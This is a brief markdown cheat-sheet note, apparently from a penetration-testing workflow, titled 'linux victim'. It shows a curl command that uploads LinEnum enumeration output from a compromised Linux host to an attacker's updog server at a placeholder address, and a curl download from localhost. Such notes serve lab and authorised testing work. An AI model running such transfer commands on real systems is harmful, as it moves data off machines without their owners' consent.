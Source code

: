 # linux victim

## post file to updog

```bash
curl -v -XPOST -F "file=@/tmp/linenum.txt;filename=linenum.txt" -F "path=/home/kali" http://so.me.ip.at:9090/upload
```

## download files with curl

```bash
curl http://localhost:9090/file -o output.file
```

